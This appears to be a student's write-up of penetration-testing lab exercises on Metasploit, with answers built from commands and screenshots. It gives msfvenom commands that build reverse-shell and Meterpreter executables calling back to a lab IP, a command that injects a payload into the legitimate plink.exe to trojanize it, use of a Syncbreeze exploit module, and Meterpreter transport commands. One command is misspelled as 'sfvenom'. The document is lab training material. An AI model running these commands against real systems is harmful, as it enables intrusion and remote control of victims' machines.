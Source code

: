 ### 22.3.7.1 Exercises
#### 1. Create a staged and a non-staged Linux binary payload to use on your Kali system.

- Non-Staged Binary Payload

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o nonstag
  ed_reverse.exe
  ```

- Staged Binary Payload

  ```bash
  msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o staged_
  reverse.exe
  ```

#### 2. Setup a Netcat listener and run the non-staged payload. Does it work?

Sure did
![image-20200731163231426](.22.3.7.1.assets/image-20200731163231426.png)

#### 3. Setup a Netcat listener and run the staged payload. Does it work?

It did not work
![image-20200731163313257](.22.3.7.1.assets/image-20200731163313257.png)

#### 4. Get a Meterpreter shell on your Windows system. Practice file transfers.

1. Used `exploit/windows/http/syncbreeze_bof` with `windows/meterpreter/reverse_http` payload.
   ![image-20200731163629485](.22.3.7.1.assets/image-20200731163629485.png)
2. Set options for each
   ![image-20200731163859377](.22.3.7.1.assets/image-20200731163859377.png)
3. Ran exploit and got meterpreter shell
   ![image-20200731163924881](.22.3.7.1.assets/image-20200731163924881.png)
4. Uploaded and downloaded a file
   ![image-20200731164112363](.22.3.7.1.assets/image-20200731164112363.png)

#### 5. Inject a payload into plink.exe. Test it on your Windows system.

1. Injected payload in plink.exe

   ```bash
   msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.216 LPORT=8000 -f exe -x /usr/share/windows-resources/binaries/plink.exe -o plink_meterpreter.exe
   ```

2. Started multi-handler on Kali using meterpreter/reverse_http
   ![image-20200731164809505](.22.3.7.1.assets/image-20200731164809505.png)

3. Transferred to Windows & ran file to get meterpreter reverse http shell
   ![image-20200731164912961](.22.3.7.1.assets/image-20200731164912961.png)

#### 6. Create an executable file running a Meterpreter payload and execute it on your Windows system.

1. Created the executable:

   ```bash
   sfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.216 LPORT=8000 -f exe -o meterpreter.exe
   ```

2. Started meterpreter handler on Kali
   ![image-20200731171931930](.22.3.7.1.assets/image-20200731171931930.png)

3. Transferred to Windows & ran file to get meterpreter reverse http shell
   ![image-20200731172001090](.22.3.7.1.assets/image-20200731172001090.png)

#### 7. After establishing a Meterpreter connection, setup a new transport type and change to it.

1. Added a new transport method

   ```bash
   transport add -t reverse_tcp -l 192.168.119.216 -p 8001
   ```

   ![image-20200731172029196](.22.3.7.1.assets/image-20200731172029196.png)

2. Backgrounded original meterpreter session & set up listener for new transport:
   ![image-20200731172205385](.22.3.7.1.assets/image-20200731172205385.png)

3. Returned to original session & activated new transport:

   ```bash
   sessions -i 6
   transport next
   ```

   ![image-20200731172317026](.22.3.7.1.assets/image-20200731172317026.png)

4. Connected to new transport
   ![image-20200731172356210](.22.3.7.1.assets/image-20200731172356210.png)